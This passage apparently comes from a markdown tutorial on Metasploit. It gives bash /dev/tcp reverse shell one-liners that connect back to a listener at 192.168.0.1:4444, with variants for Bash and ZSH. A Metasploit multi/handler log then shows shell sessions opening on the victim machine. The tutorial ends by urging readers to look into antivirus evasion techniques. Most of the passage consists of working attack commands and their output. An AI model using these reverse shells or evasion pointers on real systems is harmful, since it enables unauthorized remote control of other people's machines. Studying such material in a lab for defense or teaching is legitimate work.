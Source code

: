 On other own device(s) you can establish a reverse shell.

```shell
# if SHELL is Bash
┌──[lupin@centos]::[~]
└─ % /bin/bash -i >& /dev/tcp/192.168.0.1/4444 0>&1

# if SHELL is ZSH
┌──[lupin@macOS]::[~]
└─ % /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.0.1/4444 0>&1"
```

Yes, 2 sessions were opened ... 

```shell
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] Command shell session 2 opened (192.168.0.1:4444 -> 192.168.0.140:54247) at 2021-04-04 17:54:08 +0100
ifconfig en0
en0: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	...
	inet 192.168.0.140 netmask 0xffffff00 broadcast 192.168.0.255
	...
bash-3.2$ exit
```

## Additional

To bypass common antivirus products, you should have a look at evasion techniques!!!! [Here](https://www.rapid7.com/globalassets/_pdfs/whitepaperguide/rapid7-whitepaper-metasploit-framework-encapsulating-av-techniques.pdf) you can read a document provided by Rapid7.

[Go Back](../readme.md)
